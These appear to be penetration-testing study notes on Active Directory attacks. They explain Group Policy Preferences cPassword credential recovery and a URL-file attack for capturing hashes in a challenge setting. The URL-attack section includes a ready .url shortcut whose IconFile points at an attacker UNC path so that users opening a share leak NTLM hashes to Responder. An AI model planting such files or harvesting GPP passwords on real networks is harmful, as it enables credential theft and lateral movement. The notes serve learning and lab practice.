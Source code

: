 - **Mitigation :** Strong Passwords - Least privilege.

## **GPP / cPassword Attacks**

- **Resource :** **Group Policy Pwnage**:
    
    [Pentesting in the Real World: Group Policy Pwnage | Rapid7 Blog](https://blog.rapid7.com/2016/07/27/pentesting-in-the-real-world-group-policy-pwnage/)
    
- **Group Policy Preferences (GPP) [MS14-025] :**
    - Group Policy preferences allowed admins **to create policies using embedded credentials.**
    - These Credentials were **encrypted** and placed in **“cPassword”.**
    - The key was **accidentally** released **(whoops).**
    - Patched in MS14-025 , but **doesn’t prevent previous uses.**
    - You search for **Groups.xml** when you search for GPP.
    - Port 445 open
    - Relation between **SMB and GPP attack in Enumeration phase we find that 445 port (Which SMB port is open and the attack involves utilizing SMB ) and we search with SMB for anonymous access[ For challenge] —> Search for Group.xml.**
    - When we in situation that we can use user credentials and TGS might have tipped off —> we think in **Kerberoasting.**
    - Final tip for challenge : If you have a credential and **it doesn’t have to be that can get you onto the machine so we can use Kerberoasting or GPP to get stored credentials somewhere.**

## **URL File Attacks**

- **Scenario :** You have compromised a user and this user has **any sort of file share access so we can utilize that access to capture more hashes using responder and get back to try to crack this hashes and may be get different users with more access.**
- **URL attack :**
    - This ip address will go to be attacker ip address to catch the hash :
        
        ![254.jpg](254.jpg)
        
    - Save this file in share folder :
        
        ![255jpg.jpg](255jpg.jpg)
        
        ```html
        [InternetShortcut]
        URL=blah
        WorkingDirectory=blah
        IconFile=\\x.x.x.x\%USERNAME%.icon
        IconIndex=1
        ```
        
        ![256.jpg](256.jpg)
        
    - To make this file at the top of the folder in file share folder and this ensures that it loads . **Note the filename and save as type.**
        
        ![257.jpg](257.jpg)
        